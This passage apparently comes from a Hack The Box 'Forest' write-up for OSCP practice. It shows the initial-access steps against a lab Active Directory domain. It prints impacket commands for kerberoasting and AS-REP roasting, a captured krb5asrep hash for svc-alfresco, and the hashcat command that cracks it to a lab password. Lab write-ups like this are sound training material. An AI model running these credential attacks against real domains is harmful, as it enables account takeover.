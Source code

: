 
I do maange to find out a bunch of usernames, but since it's case-insensitive, I removed the duplicates from the output because that's just redundant.


# Initial Access

#### Getting some credz

We don't really have any credentials to speak of, so a kerberoasting attack is off the table currently. Here is what the output would look like if you ran it anyway:

```
~/htb/boxes/OSCP-PREP/Forest ❯ impacket-GetUserSPNs htb.local/ -dc-ip 10.129.8.176                                      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```

What we can check is to see if any user has non-preauth AS_REP. We can do this by using impacket's handy `impacket-GetNPUsers`. I assume that NP stands for no preauth.


```
~/htb/boxes/OSCP-PREP/Forest ❯ impacket-GetNPUsers htb.local/ -request -dc-ip 10.129.8.176                                                                                                                        
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2025-03-22 17:43:00.972433  2019-09-23 14:09:47.931194  0x410200 


$krb5asrep$23$svc-alfresco@HTB.LOCAL:786f2c92f1f3232aca14adb1a4bcefbb$d1ce68f6b73a7b38230f03ba3c479520a7ff84c19dbe3a098068c158edda88be28b71fa1f7adc002dad2e01416cbf795202c6a2fd6c657cede52115e022d7df75a48cc79953498e7823e8ada7772783455b7da11222b13155507b68e0772d9ace3b15cd44a5d0de91c539841a19865c81de2aa6f39c770f120ad84eaea879abe2c0e68cbabcbd3ceb98c4a2bcffe0121b7deb9b8df69307685441e135f82e5a230b535fbc395bda6b62c79746e2bf85ddc8093fc6df2710a5e665a551651e248abd32ff1fbf8b8ceaf414501ddf07d2af0afcef28454772e447ccdbd550e842cae9fc3b2bf65
```

We do manage to find a hash belonging to svc-alfresco, we can use hashcat to crack it.

Hashcat mode is: 18200

Running the following:
```
hashcat -a 0 -m 18200 ./hash ./rockyou.txt
```

This eventually cracks to the following password of `s3rvice`
